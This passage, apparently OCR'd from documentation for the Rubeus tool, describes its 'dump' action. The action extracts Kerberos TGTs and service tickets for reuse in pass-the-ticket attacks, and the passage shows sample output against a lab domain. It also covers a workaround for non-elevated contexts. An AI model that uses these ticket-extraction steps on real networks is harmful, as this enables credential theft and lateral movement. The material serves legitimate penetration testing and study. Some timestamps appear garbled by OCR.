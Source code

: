 The **dump** action will extract current TGTs and service tickets if in an elevated context. If not elevated, service tickets for the current user are extracted. The resulting extracted tickets can be filtered by `/service` (use `/service:krbtgt` for TGTs) and/or logon ID (the `/luid:0xA..` parameter). The KRB-CRED files (.kirbis) are output as base64 blobs and can be reused with the ptt function, or Mimikatz's **kerberos:tt** functionality.

**Note:** if run from a _non-elevated_ context, the session keys for TGTs are not returned (by default) from the associated APIs, so only service tickets extracted will be usable. If you want to (somewhat) workaround this, use the **tgtdeleg** command.

Extracting the current user's usable service tickets:

 C:\Rubeus>Rubeus.exe dump

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.4



 [*] Action: Dump Kerberos Ticket Data (Current User)

 [*] Current LUID : 0x4420e

 [*] Returned 3 tickets

 ServiceName : krbtgt/TESTLAB.LOCAL
 TargetName : krbtgt/TESTLAB.LOCAL
 ClientName : harmj0y
 DomainName : TESTLAB.LOCAL
 TargetDomainName : TESTLAB.LOCAL
 AltTargetDomainName : TESTLAB.LOCAL
 SessionKeyType : rc4_hmac
 Base64SessionKey : AAAAAAAAAAAAAAAAAAAAAA==
 KeyExpirationTime : 12/31/1600 400 PM
 TicketFlags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
 StartTime : 2/11/2019 315 PM
 EndTime : 2/11/2019 813 PM
 RenewUntil : 2/12019 313 PM
 TimeSkew : 0
 EncodedTicketSize : 1306
 Base64EncodedTicket :

 doIFFjCCBRKgAwIBBaEDAgEWoo...(snip)...

 ...(snip)...



 [*] Enumerated 3 total tickets
 [*] Extracted 3 total tickets
